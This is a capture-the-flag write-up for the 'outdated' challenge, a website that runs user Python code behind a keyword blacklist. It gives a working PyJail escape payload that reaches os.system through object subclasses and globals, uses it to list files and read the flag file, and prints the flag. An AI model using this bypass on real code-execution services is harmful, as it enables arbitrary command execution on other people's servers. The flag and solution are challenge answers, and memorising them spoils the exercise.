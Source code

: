 # outdated
> I found this old website that runs your python code, but the security hasn't been updated in years

> I'm sure there's a flag floating around, can you find it?

## About the Challenge
We have been given a website and a source code. (You can download the source code [here](server.zip))

![preview](images/preview.png)

So, this website can run our python code but there are some blacklisted keywords, for example: `__import__` or `__builtins__` and other restriction like we need to input ASCII character and we cant upload a very large file, etc.

## How to Solve?
This is like PyJail challs but in web version, so to solve this. Im using one of the PyJail payload:

```python
print(dict.__class__.__base__.__subclasses__()[132].__init__.__globals__["sys"].modules["os"].system("ls"))
```

And the result was

![ls](images/ls.png)

And then change the `ls` command to `cat flag-0f8794c6-9e3b-4458-8ee6-eeb6b3a34a68.txt` to obtain the flag

![flag](images/flag.png)

```
tjctf{oops_bad_filter_3b582f74}
```